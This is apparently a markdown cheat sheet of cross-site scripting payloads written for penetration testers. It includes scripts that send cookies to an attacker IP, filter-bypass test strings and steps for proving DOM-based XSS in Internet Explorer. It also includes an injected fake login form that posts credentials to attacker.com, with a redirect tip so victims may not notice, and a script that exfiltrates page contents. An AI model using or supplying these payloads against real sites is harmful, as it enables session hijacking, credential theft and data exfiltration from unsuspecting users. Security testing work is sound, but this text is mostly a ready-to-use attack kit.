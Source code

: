 Steal Cookies
-----------------------
```
# Will not work if HttpOnly is in cookie header (modern browsers will block this)
# Use ruby SSL server or apache with SSL enabled for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>
# Attack Script
<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```


Submits credentials to the www.attacker.com, technically this is HTML Injection (Embeds Login Screen inside application)
-----------------------
```
# php -S xxx.xxx.xxx.xxx:80
# or
# service apache2 start 
# tail -f /var/log/access.log

# Gets stuck on attackers page, do the following to resolve issue, victim may not notice the redirect :)
# In Apache, edit index.html to look like this 
# <meta http-equiv="refresh" content="0;url=https://victims.website.com/link-they-started-on/">

<h3>Please login to proceed</h3> <form action=http://www.attacker.com>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

Collect page source code (may contian sensitive data)
----------------------------
```
<script>new Image().src="https://www.attacker.com/bogus.php?output="+document.body.innerHTML</script>
```
